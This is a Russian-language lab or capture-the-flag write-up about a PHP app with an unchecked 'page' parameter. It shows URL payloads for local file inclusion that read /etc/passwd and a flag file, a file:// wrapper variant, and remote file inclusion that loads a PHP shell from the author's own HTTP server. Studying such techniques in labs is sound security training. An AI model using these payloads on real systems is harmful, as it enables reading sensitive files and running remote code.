 
## LFI

В этом задании можно было выполнить LFI (local file inclusion).  Приложение принимало в url параметр page с именем страницы, которую надо отобразить. То есть, url выглядел так:

```
http://localhost:20010/?page=about.php
```

Никаких проверок на значение параметра, преданного в page, нет, поэтому можно туда передать адрес файла, который находится на сервера и не является одной из страниц сайта. 
Например, так:
```
http://localhost:20010/?page=/etc/passwd
```

Или так:
```
http://localhost:20010/?page=/flag.txt
```


## Враппер
Еще получилось использовать враппер:

```
http://localhost:20010/?page=file:///etc/passwd
```

Врапперы -- это что-то типа протоколов в php, которые говорят о том, как обращаться с данными.

## RFI

Вместо включения локального файла, можно включить и файл, которого на сервере нет -- например, загрузить шелл. Шеллы, которые можно загрузить, у меня уже были. Для начала мне нужно было разместить шеллы на сервере. Это я сделала, выполнив в папе с шеллами следующую команду:
```
python3 -m http.server 8090
```

Ну а потом в параметре page передала ссылку на шелл:

```
http://localhost:20010/?page=http://10.5.0.51:8090/shell.php
```

Если вместо ```10.5.0.51``` передать ```localhost```, работать не будет, потому что таска запущена в докер контейнере и будет стучаться на свой собственный локалхост. Поэтому нужно передавать ip адрес компьютера. Его можно посмотреть в системных настройках или в терминале вот так:
```
ifconfig en0 | grep "inet "
```
